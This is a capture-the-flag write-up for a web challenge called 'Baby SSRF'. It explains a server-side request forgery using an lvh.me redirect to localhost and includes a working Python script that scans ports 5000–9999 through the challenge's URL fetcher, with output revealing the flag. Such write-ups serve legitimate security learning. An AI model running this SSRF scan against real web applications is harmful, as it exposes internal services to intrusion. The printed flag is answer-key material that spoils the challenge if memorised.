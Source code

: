 # Baby SSRF

**Date:** 09, June, 2021

**Author:** Dhilip Sanjay S

**Category:** Web

---

- The `request page` in the website had a text box which accepted any valid URL.
- On submitting, it was fetching and displaying the headers of the request made to website.
- So, we must access some internal local server to get flag. (SSRF!)
- And the hint says `for i in range(5000,10000)`
- So, our flag must available in any of the headers of the following local ports.
- To redirect to localhost:
    - Use `lvh.me` (or) 
    - Develop a custom server and combine it with `ngrok`

## Exploit

```py
#! /usr/bin/python3

import requests

url = "http://web.zh3r0.cf:1111/request"
payloadURL = "http://lvh.me" # Redirects to localhost
req = requests.session()

for port in range(5000,10000):
	data = {"url" :  payloadURL + ":{}".format(str(port))}
	print("[+] Trying Port {}".format(str(port)))
	
	r = req.post(url, data)
	if "zh3r0" in r.text:
		print(r.text)
		break
```

- Run the exploit
```bash
./exploit.py

[..snip..]
[+] Trying Port 9000
[+] Trying Port 9001
[+] Trying Port 9002
[+] Trying Port 9003
[+] Trying Port 9004
[+] Trying Port 9005
[+] Trying Port 9006
<!DOCTYPE html>
<html>
<head>
        <title>Request</title>
</head>
<link rel="stylesheet" type="text/css" href="hacker.css">
<body>
        <form action="/request" method="POST">
                <input type="text" name="url">
                <input type="submit" name="sub" value="sub">
        </form>
        {&#39;Date&#39;: &#39;Wed, 09 Jun 2021 09:41:02 GMT&#39;, &#39;Server&#39;: &#39;Apache/2.4.41 (Ubuntu)&#39;, &#39;FLag&#39;: &#39;zh3r0{SSRF_0r_wh4t3v3r_ch4ll3ng3}&#39;, &#39;Content-Length&#39;: &#39;0&#39;, &#39;Keep-Alive&#39;: &#39;timeout=5, max=100&#39;, &#39;Connection&#39;: &#39;Keep-Alive&#39;, &#39;Content-Type&#39;: &#39;text/html; charset=UTF-8&#39;}
<br>
          
</body>
</html>
```


## Flag

zh3r0{SSRF_0r_wh4t3v3r_ch4ll3ng3}

---